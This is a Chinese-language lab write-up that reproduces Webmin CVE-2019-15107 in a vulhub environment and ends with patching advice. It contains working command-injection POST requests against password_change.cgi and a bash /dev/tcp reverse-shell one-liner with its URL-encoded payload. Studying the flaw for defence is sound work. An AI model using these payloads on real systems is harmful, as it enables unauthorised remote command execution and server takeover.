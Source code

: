 # Webmin 远程命令执行 (CVE-2019-15107)

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2019-15107                                               |
| 漏洞名称 | Webmin 远程命令执行                                          |
| 漏洞评级 |                                                              |
| 影响范围 | Webmin<=1.920                                                |
| 漏洞描述 | 该漏洞由于password_change.cgi文件在重置密码功能在重置密码功能中发现了一个错误，该错误允许恶意第三方由于缺少输入验证而执行恶意代码。 |
| 修复方案 |                                                              |



### 1.1、漏洞描述

Webmin的是一个用于管理类Unix的系统的管理配置工具，具有网络页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。它已知在端口10000上运行。

该漏洞由于password_change.cgi文件在重置密码功能在重置密码功能中发现了一个错误，该错误允许恶意第三方由于缺少输入验证而执行恶意代码。

### 1.2、漏洞等级

### 1.3、影响版本

Webmin<=1.920

### 1.4、漏洞复现

#### 1、基础环境

Path：vulhub/webmin/CVE-2019-15107

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`https://your-ip:10000/`即可看到

![image-20231012170906031](./imgs/image-20231012170906031.png)

#### 2、漏洞验证

直接访问https://your-ip:10000/password_change.cgi

![image-20231012171030426](./imgs/image-20231012171030426.png)

抓包后修改如下POC即可

```bash
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|ls&new1=test2&new2=test2
```

上面poc需要注意：ip改成自己的ip，然后user参数不能是系统账户，后面接执行的命令。

![image-20231012171103480](./imgs/image-20231012171103480.png)

命令执行成功

也可以使用`HackBar`插件执行

![image-20231012191124242](./imgs/image-20231012191124242.png)

### 1.5、深度利用

#### 1、反弹Shell

```bash
bash -c "bash -i >& /dev/tcp/192.168.8.8/6868 0>&1"
```

进行[url编码](http://www.jsons.cn/urlencode/)  

![image-20231012171217704](./imgs/image-20231012171217704.png)

Kali监听6868端口，BurpSuite发送数据包,进行反弹

```bash
POST /password_change.cgi HTTP/1.1
Host: 192.168.8.8:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://192.168.8.8:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 141

user=rootxx&pam=&expired=2&old=test|bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.8.8%2F6868%200%3E%261%22&new1=test2&new2=test2
```

反弹成功！

![image-20231012171315658](./imgs/image-20231012171315658.png)

### 1.6、修复建议

目前Webmin官方已发布最新版 修复了该漏洞，请受影响的用户尽快升级至最新版本：

下载链接：http://webmin.com/download.html

临时解决方案：

1.900 到 1.920版本的用户，编辑Webmin配置文件：/etc/webmin/miniserv.conf，注释或删除“passwd_mode=”行，然后运行/etc/webmin/restart 重启服务命令。

注：修复漏洞前请将资料备份，并进行充分测试。

### 1.7、参考链接

- https://qftm.github.io/2020/10/25/CVE-2019-15107-Webmin-RCE-Backdoor/#toc-heading-6
- https://vulhub.org/#/environments/webmin/CVE-2019-15107/
- 

